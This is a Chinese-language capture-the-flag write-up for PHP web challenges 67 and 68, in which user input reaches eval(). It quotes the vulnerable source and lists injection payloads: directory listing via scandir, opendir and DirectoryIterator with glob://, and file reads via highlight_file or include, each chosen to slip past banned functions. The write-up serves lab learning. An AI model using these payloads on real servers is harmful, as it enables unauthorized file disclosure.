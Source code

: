 需要先扫一下目录

`print_r(scandir('/'));`，发现`flag.txt`，直接`highlight_file('flag.txt')`即可

补一个新办法`c=$a=opendir("/"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };`

也是扫出目录

> **opendir**
>
> 打开目录句柄
>
> 文档用法
>
> ```php
> <?php
> $dir = "/etc/php5/";
> 
> // Open a known directory, and proceed to read its contents
> if (is_dir($dir)) {
>     if ($dh = opendir($dir)) {
>         while (($file = readdir($dh)) !== false) {
>             echo "filename: $file : filetype: " . filetype($dir . $file) . "\n";
>         }
>         closedir($dh);
>     }
> }
> ?> 
> ```

#### 67

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

相对于上题多过滤了`print_r`，改成`var_dump`就可，其他方法一样

#### 68

`highlight_file`也被ban了，打开环境只有

**Warning**: highlight_file() has been disabled for security reasons in **/var/www/html/index.php** on line **19**

上面扫目录的办法还可以用，发现Y4师傅一个新的办法

`c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}`还不懂

因为是`txt`文件，`include include_once require require_once`都可以读出文件
